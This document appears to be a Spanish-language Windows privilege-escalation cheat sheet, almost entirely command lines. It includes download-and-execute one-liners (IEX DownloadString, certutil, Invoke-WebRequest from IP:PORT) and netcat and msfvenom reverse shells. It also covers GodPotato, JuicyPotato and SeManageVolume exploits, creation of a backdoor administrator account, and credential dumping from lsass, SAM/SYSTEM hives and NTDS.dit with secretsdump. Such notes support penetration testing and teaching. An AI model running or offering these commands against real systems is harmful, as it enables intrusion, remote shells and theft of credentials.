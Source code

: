 ```yaml
---
layout: default
title: Windows
---
```


```bash
whoami /all
```

```powershell
IEX(New-Object Net.WebClient).downloadString('http://IP:PORT/winPEAS.ps1')
```

Credenciales en caché
```bash
cmdkey /list
```
**\[+\]Dumpear DPAPI creds**

```
tasklist
```
# Puertos en escucha

```bash
netstat -ano | FindStr /I "LISTENING"
```

Que usuario ejecuta ese puerto
```bash
tasklist /FI "PID eq 5540" /V
```
Si tira permission denied, probablemente sea SYSTEM o Administrator
___

```
C:\inetpub
```

```
C:\xampp\htdocs
```

Ver permisos sobre una carpeta:
```
icacls htdocs
```

- `(F)` → _Full control_: control total (leer, escribir, ejecutar, cambiar permisos, eliminar).
    
- `(RX)` → _Read & Execute_: leer + ejecutar archivos.
    
- `(AD)` → _Append Data_: añadir datos a un archivo o crear subcarpetas en una carpeta.
    
- `(WD)` → _Write Data_: escribir en archivos ya existentes o crear archivos nuevos.

LibreOffice
```cmd
C:\Program Files\LibreOffice\program> type version.ini
```
[CVE-2023-2255](https://nvd.nist.gov/vuln/detail/CVE-2023-2255)

Leer Historial
```powershell
Get-Content "$env:APPDATA\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt"
```

```cmd
type C:\Users\USER\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```
# **SeImpersonatePrivilege**

[GitHub - BeichenDream/GodPotato](https://github.com/BeichenDream/GodPotato)
```bash
.\gp.exe -cmd "nc64.exe -e cmd.exe IP ATACANTE PUERTO"
```
O crear un nuevo usuario admin

```bash
net user m0b Password123! /add
net localgroup Administrators m0b /add
net localgroup "Remote Management Users" m0b /add
```

Si no va así probaremos con  **JuicyPotato** (versión de 32 o 64 bits):

```powershell
powershell -c Invoke-WebRequest -Uri "http://IP:PORT/nc.exe" -OutFile nc.exe
powershell -c Invoke-WebRequest -Uri "http://IP:PORT/JuicyPotato.exe" -OutFile JuicyPotato.exe
powershell -c Invoke-WebRequest -Uri "http://IP:PORT/rshell.bat" -OutFile rshell.bat
```

`rshell.bat`

```bash
C:\Users\kohsuke\AppData\Local\Temp\pentesting\nc.exe -e powershell.exe IP PORT
```

```bash
sudo rlwrap -cAr nc -lvnp PORT
```

```bash
./jp.exe -p ./rshell.bat -l 3333 -t * -c "{e60687f7-01a1-40aa-86ac-db1cbf673334}"
```

Usar otro CLSID según versión de Windows

[juicy-potato/CLSID at master · ohpe/juicy-potato · GitHub](https://github.com/ohpe/juicy-potato/tree/master/CLSID)

Probar con shell de msfvenom (32 o 64 bits)
```BAsh
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe -o revShell.exe
```


**PowerUp**
```powershell
Set-ExecutionPolicy Bypass -Scope Process -Force
upload /ruta .
Import-Module .\PowerUp.ps1
. .\PowerUp.ps1

||

IEX (New-Object Net.WebClient).DownloadString('http://IP:PORT/PowerUp.ps1')

Invoke-AllChecks
```

**Abrir archivo lsass.DMP**

```bash
pip install pypykatz
pypykatz lsa minidump lsass.dmp
```

# **SeBackup/SeRestore Privilege**

- Para sacar **credenciales locales** (Se puede hacer PtH y crackings)

```cmd
reg save hklm\system C:\Users\svc_backup\AppData\Local\Temp\pentest\system.hive
reg save hklm\sam C:\Users\svc_backup\AppData\Local\Temp\pentest\sam.hive
```

```bash
impacket-secretsdump -sam sam.hive -system system.hive LOCAL
```

- Para sacar las **credenciales de un DC**

[Windows Privilege Escalation: SeBackupPrivilege - Hacking Articles](https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/)

`raj.dsh`
```
set context persistent nowriters
add volume c: alias raj
create
expose %raj% z:
```

```bash
unix2dos raj.dsh
```

```bash
upload raj.dsh
```

```bash
cd $env:TEMP
upload raj.dsh
diskshadow /s raj.dsh
robocopy /b z:\windows\ntds . ntds.dit
```

```bash
impacket-secretsdump -ntds ntds.dit -system system local
```

# **SeManageVolume Privilege**

```bash
wget https://github.com/CsEnox/SeManageVolumeExploit/releases/download/public/SeManageVolumeExploit.exe
```

```
.\SeManageVolumeExploit.exe
```

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f dll -o tzres.dll
```

```bash
cd C:\Windows\system32\wbem
```

```bash
certutil.exe -urlcache -split -f http://IP/tzres.dll
```

```bash
rlwrap -cAr nc -lvnp PORT
```

```
systeminfo
```

